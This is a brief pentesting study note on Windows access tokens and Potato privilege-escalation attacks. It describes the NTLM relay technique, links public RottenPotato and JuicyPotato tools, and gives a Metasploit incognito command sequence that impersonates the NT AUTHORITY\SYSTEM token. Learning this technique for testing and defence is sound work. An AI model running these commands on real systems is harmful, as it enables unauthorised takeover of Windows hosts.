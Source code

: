 
# Impersonation and Potato Attacks

## What are Tokens?

Temporary keys that allows to access a system/network without having to provide credentials each time you access a file. Think cookies for computer
### Two types:

**Delegate** - created for logging into a machine or using remote desktop.

**Impersonate** - "non-interactive" These are used for tasks that don't need you to be actively using the computer, such as attaching network drive or a domain log on script.

## Potato Attacks


1. **Trick the System**: The attacker tricks the "NT AUTHORITY\SYSTEM" account into authenticating via NTLM (a Windows authentication protocol) to an endpoint they control.
    
2. **Man-in-the-Middle Attack**: The attacker intercepts this authentication attempt and uses NTLM relay to impersonate a security token for the "NT AUTHORITY\SYSTEM" account. This involves specific Windows API calls.
    
3. **Use the Token**: The attacker uses the token they've obtained. This step requires the attacker's current account to have the privilege to impersonate security tokens, which is usually true for service accounts but not for regular user accounts.

### RottenPotato (Token Impersonation)

- Binary available at : [foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato) and [breenmachine/RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

- Exploit using Metasploit with `incognito mode` loaded.

```
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

Rotten Potato - [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Juicy Potato - [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)





